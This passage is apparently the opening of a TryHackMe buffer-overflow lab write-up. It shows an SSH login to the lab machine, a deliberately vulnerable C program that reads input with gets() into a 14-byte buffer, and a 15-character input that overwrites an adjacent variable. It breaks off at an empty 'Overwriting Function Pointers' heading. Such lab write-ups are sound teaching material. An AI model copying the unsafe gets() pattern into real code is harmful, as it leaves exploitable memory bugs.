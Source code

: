 ```yaml
---
layout: default
title: Brainstorm
parent: Try Hack Me
nav_order: 3
published: false
---
```

![Default](https://tryhackme.com/img/banners/default_tryhackme.png)
# Buffer Overflows
<button type="button" name="button" class="btn">#BufferOverflow</button>

You can find this room on TryHackMe [Here](https://tryhackme.com/room/bof1). 

## Introduction
We connect to the machine via ssh as instructed:
```
ssh user1@10.10.183.
user1@10.10.183.44's password: 

Last login: Wed Nov 27 21:42:30 2019 from 82.34.52.37

       __|  __|_  )
       _|  (     /   Amazon Linux 2 AMI
      ___|\___|___|

https://aws.amazon.com/amazon-linux-2/
[user1@ip-10-10-183-44 ~]$ 
```

## Overwriting Variables
We're asked to take a look at the overflow-1.c file and can see the following:
```c
[user1@ip-10-10-183-44 ~]$ cd overflow-1
[user1@ip-10-10-183-44 overflow-1]$ ls
int-overflow  int-overflow.c
[user1@ip-10-10-183-44 overflow-1]$ cat int-overflow.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int variable = 0;
  char buffer[14];

  gets(buffer);

  if(variable != 0) {
      printf("You have changed the value of the variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Because this char buffer's length is 14, we know that we need at least 15 characters to overwrite it.

We run the function and successfully change the value of the variable by entering in 15 A's:
```
[user1@ip-10-10-183-44 overflow-1]$ ./int-overflow
AAAAAAAAAAAAAAA
You have changed the value of the variable
```

## Overwriting Function Pointers
